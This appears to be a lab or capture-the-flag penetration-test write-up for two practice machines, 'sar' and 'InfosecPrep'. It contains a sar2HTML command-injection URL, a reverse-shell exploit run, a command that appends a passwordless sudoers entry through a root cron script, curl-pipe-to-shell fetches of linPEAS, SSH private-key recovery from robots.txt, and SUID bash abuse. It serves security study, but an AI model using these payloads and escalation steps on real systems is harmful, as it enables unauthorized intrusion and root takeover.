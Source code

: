  # system vulnerable : sar - 192.168.65.35

 ## vulnerability Explanation :

    This indicates an attack attempt to exploit a Command Injection vulnerability in SAR2HTML.
    The vulnerability is due to insufficient sanitizing of user supplied inputs in the application when handling a crafted HTTP request.
    A remote attacker may be able to exploit this to execute   arbitrary commands within the context of the application, via a crafted HTTP request.

## privileges Escalation vulnerability :
    Privilege Escalation via Root Crontab File Modification

## vulnerability Fix :
    It recommended to update sar2HTML to the lastest version in order to apply the vendor supplied patches.

 ## nmap scan :
 ```
 $ nmap -sS -sV -p- 192.168.65.35

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 09:29 EDT
Stats: 0:12:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 76.87% done; ETC: 09:45 (0:03:40 remaining)
Nmap scan report for 192.168.65.35
Host is up (0.058s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2030.36 seconds
``` 

## after we know port 80 is Open

## Directory enumeration with  **Dirb** 

```
$ dirb http://192.168.65.35 /usr/share/wordlists/dirbuster/directory-list-1.0.txt -X .txt

DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Oct  5 09:51:23 2022
URL_BASE: http://192.168.65.35/
WORDLIST_FILES: /usr/share/wordlists/dirbuster/directory-list-1.0.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]

.35/robots.txt (CODE:200|SIZE:9)
```

![http://192.168.65.35/robots.txt](./sar/robots_txt.png)
![http://192.168.65.35/sar2HTML](./sar/Screenshot%20at%202022-10-05%2009-56-40.png)


 After small searche about service and its version 
 I found sar2HTML 3.2.1  is vuln to  remote code execution.
![http://192.168.65.35/sar2HTML](./sar/testsarhtml.png)

[ http://192.168.65.35/index.php?plot=;ls -la ] 
will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.

![http://192.168.65.35/index.php?plot=;ls/-la](./sar/ls-lasar2html.png)

## EXPLOIT :
### used an exploit from (Reverse Shell for sar2HTM) : https://github.com/AssassinUKG/sar2HTML
```
$ python3 sar2HTMLshell.py -ip 192.168.65.35 -rip 192.168.49.65:5555 -pe sar2HTML 
                _____  _   _ ________  ___ _     
               / __  \| | | |_   _|  \/  || |    
 ___  __ _ _ __`' / /'| |_| | | | | .  . || |    
/ __|/ _` | '__| / /  |  _  | | | | |\/| || |    
\__ \ (_| | |  ./ /___| | | | | | | |  | || |____
|___/\__,_|_|  \_____/\_| |_/ \_/ \_|  |_/\_____/
                                                 
                                                 
The Host Appears Vulnerable, Running a basic shell ...
Enter: 'rs session' for a ReverseShell
$\cmd> rs session 
```
OPEN NEW SHELL WINDOW 
![Reverse Shell](./sar/newwinforbash.png)

Search for possible paths to escalate privileges with **LinPEAS** tool I found crontab run with root privileges :

![LinPEAS tool](./sar/linpeastool.png)

```
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

 ...
 
  */5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
  2019-10-20+21:18:10.9383805730 /var/www/html/finally.sh
  /var/www/html/finally.sh
  /var/www/html/finally.sh
  
  ...

```

![Write.sh](./sar/write_sh.png)


### www-data user have the right to edit the write.sh

```
$ ls -l write.sh
-rwxrwxrwx 1 www-data www-data 30 Jul 24  2020 write.sh
```
```
$ echo 'echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' >> /var/www/html/write.sh
```

![proof.txt](./sar/Screen%20Shot%202022-10-05%20at%207.13.03%20PM.png)

```








```

# system vulnerable : InfosecPrep - 192.168.65.89

 ## vulnerability Explanation :

Invicti detected a Robots.txt file with potentially sensitive content.

## privileges Escalation vulnerability :
    Privilege Escalation via SUID 

## vulnerability Fix :
    Ensure you have nothing sensitive exposed within this file, such as the path of an administration panel. If disallowed paths are sensitive and you want to keep it from unauthorized access, do not write them in the Robots.txt, and ensure they are correctly protected by means of authentication.
    Robots.txt is only used to instruct search robots which resources should be indexed and which ones are not.

## Enumeration with NMAP:

```
$ sudo nmap -sS -sV -p- 192.168.65.89
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 16:22 EDT
Nmap scan report for 192.168.65.89
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
```

After i know port 80 is open now time to start Dir Enumeration 

## Dir enumeration with **Drib**

![DirbScan](./infosec/dirbscan.png)

I found **robots.txt**

![robots.txt](./infosec/robots_txt.png)

after that i saw a secret.txt ther

![secret.txt](./infosec/secret_txt.png)

with some encerpted text 

decode this text with cmd :
![decode](./infosec/decodesecret_txt.png)

### its a openssh privet key ,after that i try to connect to ssh service as i know from the main page of the website the only user in web app is "OSCP"
![USR](./infosec/Oscp_onlyUser.png)

![connectToSsh](./infosec/EnterwithSshPrivetKey.png)

## Privilege Escalation:

privilige escaltion tool **liPEAS** : https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

after run the follwing CMD :
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![SUIDmisconfig](./infosec/SUID.png)

I found we can run /usr/bin/bash owned by the user **ROOT** with SUID permission 

![proof](./infosec/proof_txt.png)

